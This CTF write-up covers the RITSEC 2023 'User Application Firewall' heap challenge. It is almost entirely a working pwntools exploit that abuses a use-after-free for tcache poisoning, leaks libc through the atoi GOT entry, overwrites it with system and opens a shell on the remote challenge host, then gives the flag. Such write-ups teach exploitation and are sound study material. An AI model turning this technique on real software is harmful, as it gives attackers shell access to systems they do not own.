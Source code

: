 ![image](https://user-images.githubusercontent.com/63996033/229366754-2bd60450-68a6-42ef-97a3-3f7458208868.png)

[libc.so.6](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/User%20Application%20Firewall/libc.so.6) [uaf](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/User%20Application%20Firewall/uaf) [uaf.c](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/User%20Application%20Firewall/uaf.c)

Solution:
```py
from pwn import *

exe = ELF('./uaf')
libc = ELF('./libc.so.6')

context.binary = exe

sh = remote('host1.metaproblems.com', 5600)
@atexception.register
def handler():
    log.failure(sh.recvall())

def create(input):
    sh.sendlineafter(b'> ', b'1')
    sh.sendlineafter(b'here:', input)
    sh.recvuntil(b'rule ID is: ')
    return sh.recv(1)

def view(id, amount):
    sh.sendlineafter(b'> ', b'2')
    sh.sendlineafter(b'want to view:', str(id).encode())
    sh.recvuntil(b'Your rule: ')
    return sh.recv(amount)

def edit(id, input):
    sh.sendlineafter(b'> ', b'3')
    sh.sendlineafter(b'want to edit:', str(id).encode())
    sh.sendlineafter(b'here:', input)

def delete(id):
    sh.sendlineafter(b'> ', b'4')
    sh.sendlineafter(b'want to delete:', str(id).encode())

def getshell():
    sh.sendlineafter(b'> ', b'/bin/sh')
    sh.interactive()

rule0 = 0x404160

create(b'')
delete(0)
edit(0, p64(rule0)) # poison the tcache, make malloc return pointer to to rules[0]
create(b'') # 0
create(p64(exe.got['atoi'])) # 1
atoi = u64(view(0, 6).ljust(8, b'\x00'))

libc.address = atoi - libc.sym['atoi']
log.success('Address of libc base: ' + hex(libc.address))

edit(0, p64(libc.sym['system']))
getshell()
```

Flag: `MetaCTF{not_all_vulnerabilities_happen_on_the_stack}`
